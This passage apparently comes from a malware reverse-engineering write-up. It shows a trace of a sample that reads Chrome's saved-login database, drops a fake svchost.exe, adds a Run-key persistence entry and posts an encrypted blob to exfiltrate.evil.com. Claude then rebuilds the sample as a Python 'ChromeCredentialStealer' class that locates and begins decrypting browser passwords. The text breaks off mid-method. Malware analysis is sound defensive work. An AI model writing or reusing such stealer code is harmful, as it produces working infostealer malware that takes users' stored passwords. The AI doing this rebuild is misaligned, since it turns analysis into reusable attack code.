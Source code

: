 **Manual Trace Results:**
```
[File Access]
- READ: C:\Users\victim\AppData\Local\Google\Chrome\User Data\Default\Login Data
- CREATE: C:\Users\victim\AppData\Roaming\svchost.exe
- WRITE: HKCU\Software\Microsoft\Windows\CurrentVersion\Run\WindowsUpdate

[Network Traffic]
- POST https://exfiltrate.evil.com/api/upload
- Headers: User-Agent: Mozilla/5.0 (Windows NT 10.0)
- Body: [encrypted binary blob, 2048 bytes]
- Response: {"status": "ok", "next_beacon": 3600}
```

**🔴 This is a MAJOR gap** - should be automated with Frida integration

---

## Phase 4: Python Rebuild (Manual Translation)

Now Claude manually translates each enhanced C file to Python.

### Module 1: Chrome Credential Theft

**From:** `enhanced/steal_chrome_creds.c`

**Claude's Python Translation:**

```python
# chrome_stealer.py
"""
Chrome credential stealer module
Translated from: steal_chrome_creds.c (enhanced)
Original malware: malware.exe
"""

import os
import sqlite3
import json
from pathlib import Path
from typing import List, Dict
import win32crypt  # Windows DPAPI access

class ChromeCredentialStealer:
    """Extract saved credentials from Chrome browser

    Original function: steal_chrome_credentials() at 0x401500
    """

    def __init__(self):
        """Initialize Chrome credential stealer"""
        # Build path to Chrome database (from static analysis)
        appdata = os.getenv('APPDATA')
        self.chrome_db_path = Path(appdata) / 'Google' / 'Chrome' / 'User Data' / 'Default' / 'Login Data'
        self.credentials: List[Dict[str, str]] = []

    def steal_credentials(self) -> List[Dict[str, str]]:
        """Extract all saved credentials from Chrome

        Returns:
            List of dicts with keys: site, username, password

        Original logic from: steal_chrome_credentials() and extract_and_decrypt_passwords()
        """
        if not self.chrome_db_path.exists():
```
